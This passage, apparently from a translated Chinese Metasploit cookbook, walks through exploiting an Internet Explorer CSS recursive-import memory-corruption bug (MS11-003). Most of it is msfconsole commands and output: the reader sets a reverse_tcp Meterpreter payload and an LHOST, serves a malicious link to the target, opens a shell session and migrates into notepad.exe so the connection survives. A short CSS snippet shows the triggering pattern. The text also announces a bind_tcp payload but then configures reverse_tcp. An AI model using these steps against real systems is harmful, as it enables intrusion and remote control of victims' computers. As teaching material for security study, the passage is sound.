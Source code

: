 ## 准备好了吗

我们将从启动 msfconsole 开始。我们在这个配方中的利用是 `exploit/windows/browser/ms11_003_ie_css_import`，我们的有效载荷将是 `windows/meterpreter/bind_tcp`，这将有助于获得与目标机器的外壳连接。

## 怎么做。。。

我们将以迄今为止的方式开始。首先，我们将选择漏洞。然后，我们将选择有效负载并传递利用漏洞和有效负载所需的各种参数值。让我们在 msfconsole 中继续执行所有这些步骤。

```
msf > use exploit/windows/browser/ms11_003_ie_css_import
msf exploit(ms11_003_ie_css_import) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
smsf exploit(ms11_003_ie_css_import) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(ms11_003_ie_css_import) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/K9JqHoWjzyAPji
[*] Local IP: http://192.168.56.101:8080/K9JqHoWjzyAPji
[*] Server started. 
```

正如我们所看到的，利用率和有效载荷与各种参数一起设置。执行 `exploit`命令后，模块生成本地链路 `http://192.168.56.101:8080/K9JqHoWjzyAPji`。这是必须传输到目标的恶意链接，以使其在 IE 浏览器中执行。目标浏览器将完全冻结，并将消耗大部分系统资源。目标将被迫关闭浏览器。让我们监视 msfconsole 上的活动：

```
[*] 192.168.56.1:52175 Received request for "/K9JqHoWjzyAPji/\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A"
[*] 192.168.56.1:52175 Sending
windows/browser/ms11_003_ie_css_import CSS
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:52176) at 2011-11-15 13:18:17 +0530
[*] Session ID 1 (192.168.56.101:4444 -> 192.168.56.1:52176) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (5164)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5220
[+] Successfully migrated to process 
```

在目标浏览器中成功执行该漏洞利用后，我们将在 msfconsole 中启动一个会话，从而打开 shell 连接。但是，在 msf 和目标公司之间开启会话之后，还会发生更多的事情。 `InitialAutoRunScript`执行 `migrate -f`命令，将有效负载从 `iexplore.exe`迁移到 `notepad.exe`。这一步对于持久连接至关重要。即使目标用户关闭浏览器，当我们迁移到另一个进程时，连接仍然是活动的。

## 它是如何工作的。。。

让我们挖掘此漏洞以获取更多信息。那么，这个漏洞的原因正是它的名字所说的。当 Microsoft 的 HTML 引擎（mshtml）解析多次递归导入同一 CSS 文件的 HTML 页面时，会导致内存损坏，并允许执行任意代码。考虑下面的 HTML 代码片段。

```
// html file
<link href="css.css" rel="stylesheet" type="text/css" />
// css file
*{
color:red;
}
@import url("css.css");
@import url("css.css");
@import url("css.css");
@import url("css.css"); 
```
